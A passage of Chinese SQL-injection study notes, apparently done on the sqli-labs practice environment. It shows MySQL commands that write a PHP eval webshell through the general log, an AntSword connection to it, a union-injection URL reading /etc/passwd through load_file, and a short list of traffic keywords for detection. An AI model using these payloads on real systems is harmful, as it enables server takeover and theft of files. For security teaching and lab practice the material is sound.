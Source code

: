 `general log`

```bash
show variables like '%general_log%';

set global general_log=1;
set global general_log_file='/var/www/html/shell1.php';

select '<?php @eval($_POST["xxx"]);?>';

chmod o+rw /var/www/html/shell1.php
```

#### 查询一般日志的状态

![image-20240803105252493](../../../../repo/assets/19.SQL注入/image-20240803105252493.png)

#### 开启一般日志，写入webshell

![image-20240803113846495](../../../../repo/assets/19.SQL注入/image-20240803113846495.png)

![image-20240803113913079](../../../../repo/assets/19.SQL注入/image-20240803113913079.png)

#### 赋予其他人查看权限

![image-20240803141527679](../../../../repo/assets/19.SQL注入/image-20240803141527679.png)

#### 蚁剑连接

```bash
http://192.168.70.14:8088/shell1.php
xxx
```

![image-20240803141704959](../../../../repo/assets/19.SQL注入/image-20240803141704959.png)

![image-20240803141742229](../../../../repo/assets/19.SQL注入/image-20240803141742229.png)

### **6、** **利用 load_file 读敏感文件**

```
http://192.168.70.14:8088/Less-1/?id=-1' union select 1,2,load_file('/etc/passwd') --+
```

![image-20240802212549223](../../../../repo/assets/19.SQL注入/image-20240802212549223.png)

### **7、** **流量分析**

#### 流量敏感关键字：

- `union`
- `select`
- `group_concat`
- `into outfile`
- `load_file()`
